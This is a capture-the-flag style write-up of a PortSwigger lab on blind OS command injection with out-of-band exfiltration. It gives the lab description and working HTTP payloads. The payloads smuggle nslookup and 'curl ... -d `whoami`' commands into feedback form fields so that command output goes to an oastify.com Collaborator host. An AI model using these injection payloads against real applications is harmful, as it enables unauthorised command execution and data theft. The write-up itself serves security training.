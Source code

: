 # [Lab: Blind OS command injection with out-of-band data exfiltration](https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band-data-exfiltration)

## Lab

This lab contains a blind OS command injection vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, execute the `whoami` command and exfiltrate the output via a DNS query to Burp Collaborator. You will need to enter the name of the current user to complete the lab.

- burpsuite scanner detected:
  - `OS command injection` (decoded body):

    ```http
    POST /feedback/submit HTTP/1.1

    csrf=tULukXgpdrLyKzl2ILNmkpm0qagGYuQN&name=test&email=test@test.test&subject=test&message=test&nslookup -q=cname bgvvxzovrarm6f3cap1xp0d9309r0fq3lrchzanz.oastify.com.&'\"`0&nslookup -q=cname bgvvxzovrarm6f3cap1xp0d9309r0fq3lrchzanz.oastify.com.&`'
    ```

    - The application performed a DNS lookup for the specified domain name.

## Solutions

Same as [solution 1 of lab 3](./3.%20Blind%20OS%20command%20injection%20with%20output%20redirection.md)

```http
POST /feedback/submit HTTP/1.1

csrf=mtVzUSUV6Mxw5XR5oDWFn3TAijX7YxcF&name=test&email=a||curl+vhgf3lag8na5zpruawmoxwkmrdx4lv9k.oastify.com+-d+`whoami`||&subject=test&message=test
```

request to collaborator:

```http
POST / HTTP/1.1

peter-xEUl98
```
